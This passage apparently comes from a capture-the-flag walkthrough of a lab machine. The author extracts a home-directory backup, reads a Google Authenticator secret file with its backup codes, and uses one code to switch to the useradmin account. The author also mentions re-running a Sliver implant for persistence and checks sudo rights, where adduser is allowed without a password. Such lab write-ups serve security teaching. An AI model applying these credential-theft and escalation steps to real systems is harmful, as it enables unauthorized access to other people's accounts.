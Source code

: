 ```
└─$ tar -xzf backup.tar.gz 

└─$ ls -la          
total 36
drwxr-xr-x 4 daz daz 4096 Jun 21 12:48 .
drwxr-xr-x 8 daz daz 4096 Jul  3 16:17 ..
lrwxrwxrwx 1 daz daz    9 Jun 21 11:48 .bash_history -> /dev/null
-rw-r--r-- 1 daz daz  220 Jun 21 11:46 .bash_logout
-rw-r--r-- 1 daz daz 3771 Jun 21 11:46 .bashrc
drwx------ 2 daz daz 4096 Jun 21 12:48 .cache
-r-------- 1 daz daz  200 Jun 21 12:48 .google_authenticator
-rw-r--r-- 1 daz daz  807 Jun 21 11:46 .profile
drwxrwxr-x 2 daz daz 4096 Jun 21 11:53 .ssh
-rw-rw-r-- 1 daz daz 3088 Jul  3 19:08 backup.tar.gz
```

It seems that a similar `.google_authenticator` file was decompressed from the archive. If we read this file, we can see that there are a plethora of verification codes that are within this file.

```
└─$ cat .google_authenticator 
CLSSSMHYGLENX5HAIFBQ6L35UM
" RATE_LIMIT 3 30 1718988529
" WINDOW_SIZE 3
" DISALLOW_REUSE 57299617
" TOTP_AUTH
[...snip...]
```

Based on the `RATE_LIMIT`, my guess is that we can only use these backup verification codes three times every 30 minutes or they refresh every 30 minutes.

If we attempt to log in as `useradmin` with their password and one of these verification codes (I used 99852083), we can see that the codes seem to work and we are able to login as `useradmin`.

```
tomcat@manage:/home/useradmin/backups$ su useradmin
Password: 
Verification code: 
useradmin@manage:~/backups$
```

I made sure to execute my Sliver binary again so we aren't required to use another token for a login attempt.

# Privilege Escalation via Admin Group

Upon getting access to `useradmin`, I immediately ran `sudo -l` to see if we had sudo access to any binaries on the filesystem.

```
tomcat@manage:/home/useradmin/backups$ su useradmin
Password: 
Verification code: 
useradmin@manage:~/backups$ sudo -l
Matching Defaults entries for useradmin on manage:
    env_reset, timestamp_timeout=1440, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User useradmin may run the following commands on manage:
    (ALL : ALL) NOPASSWD: /usr/sbin/adduser ^[a-zA-Z0-9]+$
```
